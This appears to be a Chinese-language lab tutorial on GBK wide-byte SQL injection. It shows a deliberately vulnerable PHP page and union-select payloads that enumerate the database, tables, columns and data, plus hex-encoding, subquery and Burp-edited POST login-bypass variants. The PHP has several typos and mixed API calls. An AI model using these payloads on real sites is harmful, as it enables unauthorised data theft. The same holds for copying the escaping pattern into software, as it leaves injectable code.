 # 代码分析

```
<?php
    $con = mysqli_connect('localhost', 'root', 'root') or die('bad!');
    mysql_select_db('test', $con) or emMsg("数据库连接失败");
    mysql_query("set names 'gbk'" . $con);
    $id = addslashes($_GET['id']);
    $sql = "select * from users where id = '$id' limit 0,1";
    $result = mysqli_query($sql, $con) or die(mysql_error());
    $row = mysqli_fetch_array($result);
    if($row){
        echo $row['username'] . ":" . $row['address'];
    }else{
        print_r(myqsl_error());
    }
?>
w
<?php
    echo "<br> The Query String is " .  $sql . "<br>";
?>
```


- 魔术引号：magc_quotes_gpc
- 函数在php中的作用是判断解析用户提交的数据（get、post、cookie过来的数据）中有特殊字符（单引号(')、双引号(")、反斜线(/)、NULL字符(NULL)）就会在前面加上一个`"\"`来过

- gbk编码和utf-8编码

> ascii编码是一个字节

> gbk编码是2个字节

> utf-8编码是3个字节

### GET传参

- 当特殊字符被反斜杠转义时，在闭合的前方加上一个字符，让这个字符和反斜杠组成一个新的gbk编码的汉字

  ```mysql
  ?id=1 %aa' and 1=1 -- 123
  select *from user where id='1�\' and 1=1 -- 123'
  ```

#### 数据库

```mysql
?id=1 %df' union select 1,2,3 -- 123

?id=1 %df' union select 1,user(),database() -- 123
```

#### 数据表

```mysql
一起输出 : 
	?id=1 %df' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database() -- 123

一个一个输出 : 
	?id=1 %df' union select 1,2,table_name from information_schema.tables where table_schema = database() limit 0,1 -- 123
```

#### 数据字段

- 这里输入table_name=后面要加单引号，会被转义，这里有两种方法绕过
  - 子查询
  - 16进制转码

```mysql
一起输出 : 
	?id=1 %df' union select 1,2,group_concat(column_name) from information_schema.columns where table_name=(select table_name from information_schema.tables where table_schema = database() limit 0,1) -- 123
	?id=1 %df' union select 1,2,group_concat(column_name) from information_schema.columns where table_name=16进制的表名(例如 : user : 0x75736572) -- 123

一个一个输出 : 
	?id=1 %df' union select 1,2,column_name from information_schema.columns where table_name=(select table_name from information_schema.tables where table_schema = database() limit 0,1) limit 0,1 -- 123
	?id=1 %df' union select 1,2,column_name from information_schema.columns where table_name=16进制的表名(例如 : user : 0x75736572) limit 0,1 -- 123
```

#### 数据

```mysql
一起输出 : 
	?id=1 %df' union select 1,2,group_concat(字段名) from 表名 -- 123

一个一个输出 : 
	?id=1 %df' union select 1,2,字段名 from 表名 limit 0,1 -- 123
```

### POST传参

#### 使用burp抓包修改hex值

```mysql
burp抓包
username=a%27+%29+or+1%3D1+--+qwe&password=123
找到a对应的hex值(61)，改成df
```

#### 利用utf-8的特性，加上反斜杠组合成两个gbk格式的汉子

```mysql
我') or 1=1 -- 123
```

- 注入方式和GET注入一样，只是需要将%df替换成汉字或抓包修改其hex值

- 两者区别
  - GET是通过一个字符加上另一个字符组合成一个gbk格式的汉字
  - POST是通过一个汉字加上一个字符组合成两个gbk格式的汉字
    - 因为POST不会通过url编码，所以需要自己抓包修改16进制值